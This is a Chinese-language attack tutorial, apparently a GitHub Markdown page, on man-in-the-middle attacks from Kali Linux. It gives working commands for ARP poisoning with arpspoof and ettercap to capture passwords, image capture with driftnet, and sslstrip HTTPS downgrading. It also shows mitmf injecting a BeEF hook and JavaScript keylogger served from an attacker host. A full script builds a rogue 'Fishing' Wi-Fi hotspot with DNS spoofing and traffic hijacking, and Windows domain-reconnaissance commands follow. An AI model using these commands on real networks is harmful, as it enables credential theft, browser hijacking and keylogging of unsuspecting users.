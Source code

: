 # Kali 系统下 arp 嗅探

## 0x1 系统安装
1. 先安装一个kali系统，可以参考网上的教程。（网上的系统安装教程很多这里就不重复了）。系统下载推荐到官网下载。然后对比一下 校验码。

## 0x2 实践操作
**准备工作**

系统开启ip转发，使目标机器可以正常上网。如果未开启则目标主机在apr 投毒之后无法上网。

``` echo 1 > /proc/sys/net/ipv4/ip_forward；```

使用嗅探工具进行嗅探 比如（登录密码）,这里使用arpspoof 工具进行演示操作。具体使用方法可以使用 arpspoof -h 命令查看帮助文档

```
在终端中输入arpspoof -t 192.168.1.105 192.168.1.1 -i eth0
并输入ettercap -Tq -i eth0 进行账号密码嗅探；
```
arpspoof -t 192.168.1.105 192.168.1.1 -i eth0
命令解释：
 -t 目标ip  192.168.1.105  
  网关地址   192.168.1.1
 -i 使用eth0网口进行arp转发


**ettercap使用**

使用 ettercap嗅探。可以使用GUI视图窗口来进行操作，或者使用命令行下的命令来使用。这里介绍下 ettercap在GUI模式下的使用步骤

1. 使用 etteracp -G 开启程序主界面。
2. 开启ettercap，选择Sniff菜单里的Uniffied sniffing
3. 选择eth0网卡，wlan的话就选wlan0，然后点确定
4. 点击Hosts下的Scan for hosts
5. 点击Hosts下的Host list列出所有的ip，并把你想要攻击的ip选中（如果这里也是网关的话，会获得所有人的包），点击Add to Target1，选中网关ip，点击Add to Target2
6. 选择Mitm下的ARP poisoning
7. 选中 sniff remote connection 选项，点击确定
8. 选择start下的Start sniffing
 
如果目标主机进行了登录网站，比如登录路由器，或者邮箱帐号，会捕获到目标主机的登录名和密码信息，这里只是使用我自己的机器进行测试

## 0x3 图片获取

这里使用我们还可以使用driftnet截获受害者浏览的图片。driftnet -eth0 (系统使用的网卡名称)
在系统菜单中打开终端，输入 driftnet -i eth0 ，弹出driftnet，如果有图片的数据包流过，就会把图像显示出来 。

单击图片会保存到root更目录下，或者使用driftnet -i eth0 -a 命令显示图片名称，这样图片名称会在终端命令行中显示出来，并保存图片到目录中。当然你也可以修改图片保存目录。



## 0x4 cooick 获取
使用 Coocike Cadger工具进行

可以使用tcpdump或Wireshark工具截获所有流量。

## 会话劫持

**https登录账号密码嗅探**

vim /etc/ettercap.conf


\# if you use iptables:

   \#redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

   \#redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

修改为

\# if you use iptables:

   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"

   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport"
  

sslstrip -a -f -k

echo 1 >/proc/sys/net/ipv4/ip_forward

arpspoof -i wlan0 -t 192.168.100 192.168.1.1

ettercap -Tq -i wlan0 

**web浏量劫持**

工具：BEEF;mitmf;iptables

过程：

先把80端口的流量劫持走（这里10000是mitmf默认监听端口）

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
```

然后打开mitmf

```
mitmf -i at0 --replace --search-str aaaaa  --replace-str bbbbb#把所有网页中的aaaaa替换成bbbbb
```
如果百度了aaaaa则会把aaa替换成bbb

好吧不要恶作剧了，上干货

```
mitmf -i at0 --inject --js-url http://10.0.0.1:3000/hook.js --jskeylogger
```
和beef的攻击测试脚本，其余的攻击方式（比如javapwn）可以参考http://www.freebuf.com/tools/45796.html

最后用BEEF测试用户浏览器吧！

```
/usr/share/beef-xss/beef
```

ssh 脚本

```
清空iptables
iptables -t nat -F
iptables -t nat -X  
iptables -t nat -P PREROUTING ACCEPT  
iptables -t nat -P POSTROUTING ACCEPT  
iptables -t nat -P OUTPUT ACCEPT  
iptables -t mangle -F  
iptables -t mangle -X  
iptables -t mangle -P PREROUTING ACCEPT  
iptables -t mangle -P INPUT ACCEPT  
iptables -t mangle -P FORWARD ACCEPT  
iptables -t mangle -P OUTPUT ACCEPT  
iptables -t mangle -P POSTROUTING ACCEPT  
iptables -F  
iptables -X  
iptables -P FORWARD ACCEPT  
iptables -P INPUT ACCEPT  
iptables -P OUTPUT ACCEPT  
iptables -t raw -F  
iptables -t raw -X  
iptables -t raw -P PREROUTING ACCEPT  
iptables -t raw -P OUTPUT ACCEPT  
#建立热点
airmon-ng stop mon0
ifconfig wlan1 down           #wlan1修改成你的网卡
iwconfig wlan1 mode monitor
ifconfig wlan1 up
airmon-ng start wlan1 &
sleep 2                  
gnome-terminal -x bash -c "airbase-ng -e Fishing -c 11 mon0"              #按需求修改
sleep 2
ifconfig at0 up
ifconfig at0 10.0.0.1 netmask 255.255.255.0
ifconfig at0 mtu 1400
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
echo 1 > /proc/sys/net/ipv4/ip_forward
#配置dhcp
dhcpd -cf /etc/dhcp/dhcpd.conf -pf /var/run/dhcpd.pid at0
sleep 2
/etc/init.d/isc-dhcp-server start 
#nat
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
iptables -A FORWARD -i wlan1 -o eth0 -j ACCEPT
iptables -A FORWARD -p tcp --syn -s 10.0.0.0/24 -j TCPMSS --set-mss 1356
#劫持80
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
#劫持dns
gnome-terminal -x bash -c "dnschef -i 10.0.0.1 --nameserver 210.73.64.1#53"

#打开beef并进行80js键盘记录
gnome-terminal -x bash -c "mitmf -i at0 --inject --js-url http://10.0.0.1:3000/hook.js --jskeylogger"
beef-xss

```
## 内网信息获取

使用 Windows自带的命令进行内网信息的查看，这里只是初步查看内网的信息。
```
ipconfig /all
netstat –an
net start
net user
net user /domain
net group “domain admins”        #查看域管理员
net localgroup administrators
net view /domain
dsquery server         #查看域控服务器
dsquery subnet        #查看域IP范围
```

